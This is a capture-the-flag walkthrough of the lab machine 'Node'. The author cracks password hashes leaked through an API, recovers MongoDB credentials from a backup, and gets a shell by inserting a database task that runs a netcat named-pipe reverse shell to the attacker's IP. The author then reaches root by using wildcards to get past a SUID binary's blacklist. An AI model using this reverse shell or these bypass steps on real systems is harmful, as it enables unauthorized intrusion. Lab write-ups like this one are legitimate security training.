


## Overview

Node an Ubuntu box running node.js and mongodb. After looking at the web traffic with burp I determined that the site exposes password hashes via its api. The hashes were easily cracked which allowed me to gain access to the admin page where I was able to download a backup file of the myplace website. From the extracted files I found a connection string that contained credentials to for mongodb. After reviewing the running processes I found a javascript file running under user account tom and after review of the file I learned that it's used to execute commands found in the database. I wrote a mongo document that contained a command to create a reverse shell and once executed I gained access as user Tom. Some enumeration shows an unusual file called backup that has the suid permission. After doing some testing with the file I was able to find the proper syntax and bypass the symbol blacklist to retrieve the root flag.

## Enumeration

**Software**

* Ubuntu 16.04.3 LTS
* node.js ver?
* jquery 1.12.4
* express 4.15.4
* express-session 1.15.5
* body-parser 1.17.2
* mongodb 2.2.31

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.58 -oN /mnt/data/boxes/node/_full_tcp_nmap.txt
```
* 22/tcp - ssh
* 3000/tcp - http

## Steps (user)

I browsed to http://10.10.10.43:3000 which brought up a page called "MYPLACE". At the bottom were some pictures of familiar people.


I wasn't having any luck with gobuster or dirb so I decided to get a little more information using burp. I noticed quite a few GET requests to /api/users/latest.


Browsing to http://10.10.10.58:3000/api/users/latest showed what look like usernames and password hashes


```
	
0	
_id	"59a7365b98aa325cc03ee51c"
username	"myP14ceAdm1nAcc0uNT"
password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
is_admin	true
1	
_id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
2	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
3	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```
I used hash-identifier to determine hash type. I decided to go with SHA-256 because it's the more common of the two.


I copied the hashes to a file on my physical machine and ran hashcat with -m 1400 for SHA2-256 -a 0 for straight attack mode. 

```
.\hashcat64.exe -m 1400 -a node-hashes.txt rockyou.txt
```

I was able to crack 3 of the 4 hashes



```
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake
ratating: <unable to crack>
```

On the main MYPLACE page I clicked login and was able to authenticate successfully with myP14ceAdm1nAcc0uNT:manchester. The only change after logging in is a button called "download backup". Clicking the button downloads a file called "myplace.backup".


Looking at the myplace.backup file shows what looks like base64


I ran base64 -d on the file and output to myplace.backup.txt

```
base64 -d myplace.backup > myplace.backup.txt
```

Running file myplace.backup.txt shows that it's a zip file so I renamed it to myplace.backup.zip. Attempting to extract prompts for a password. I used fcrackzip and the rockyou worklist to get the password.

> fcrackzip is in the kali repository, to install type sudo apt install fcrackzip

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.backup.zip
```


Now that I had the password I was able to unzip the file and specifying the password with -P.

```
unzip -P magicword myplace.backup.zip
```

Looking through what was unzipped in var/www/myplace I came across an app.js file which contained a connection string with credentials for mongodb - **mark:5AYRft73VtFpc84k**


Using Mark's credentials I was able to ssh into the box.


> Note: I was not able to read user flag at this point.

Listing the running processes (ps auxw) shows a process running under the tom account that references an app.js file. At first it looked like maybe it was the same file that was extracted from myplace.backup but it was being executed from /var/scheduler not /var/www/myplace. Viewing /var/scheduler/app.js shows a different connection string that specifies 'scheduler'.


After taking a look at the app.js file and reading through the code, it appeared that the setInterval function when called loops through the tasks collection, loops through anything found, executes doc.cmd and then deletes the task.

I logged into mongo with "mongo -u mark -p 5AYRft73VtFpc84k scheduler"


I typed help but I could not run most of the commands due to insufficient privileges. I could run "db" which showed the current database and "show collections" which showed "tasks".  Collections are like tables and documents are like rows in a traditional database.



I ran db.tasks.help() which printed out a list of commands, one of which was .insertOne()


The MongoDB document structure is [BSON](https://docs.mongodb.com/manual/core/document/) so I had to format the command accordingly. I used the insertOne() command, specifying the item, description, and cmd fields. In the cmd field I added a command that would create a reverse shell to my box.

```
db.tasks.insertOne(
{ 
    item: "Test", 
    description: "Test", 
    cmd: "rm -f /tmp/a; mknod /tmp/a p;/bin/sh 0</tmp/a | nc 10.10.14.26 4200 1>/tmp/a" 
}
)
```
When the scheduled task ran the command was executed and I received a callback as user tom.


## Steps (root/system)

I copied LinEnum to the target box to do some additional enumeration. First I copied LinEnum to my working directory and set up a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
sudo python3 -m http.server 80
```

Using wget I transferred LinEnum to the target
```
wget http://10.10.14.26/le.sh
```

LinEnum showed the suid permission was set on an unusual file: /usr/local/bin/backup


Running backup with -h and no parameters doesn't provide any helpful information or syntax. Looking at /var/www/myplace/app.js again gave showed me the syntax required.

```
var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
```


Now that I knew the syntax I could execute the backup file. First I tried targeting /root and then /etc/shadow but I received the same result

```
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 <file path>
```


When decoded and output to a zip file "echo 'base64 text' | base64 -d > backupjob.zip", and extracted "7z x backupjob.zip" shows: 


Running the command again with ltrace provided a little more information about what the application was doing. I ran the command with /tmp as the target directory. It showed that it's looking for specific characters and strings (like /root) which I assume is some sort of protection mechanism and results in the generic base64 troll.


Looking at all symbols, I ruled out the ones defined in the backup app leaves the following, some of which are useful as they are used by bash as wildcard.

```
! " # % ' ( ) * , - . : < = > ? @ [ \ ] ^ _ { } ~ 
```

There may be other ways but I found three ways that allowed me to get root.txt

```
# Single Character Wildcard ?
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r?ot/r?ot.txt

# String Wildcard *
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r*ot/r*ot.txt

# Start and End character wildcard []
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r[a-z]ot/r[a-z]ot.txt
```


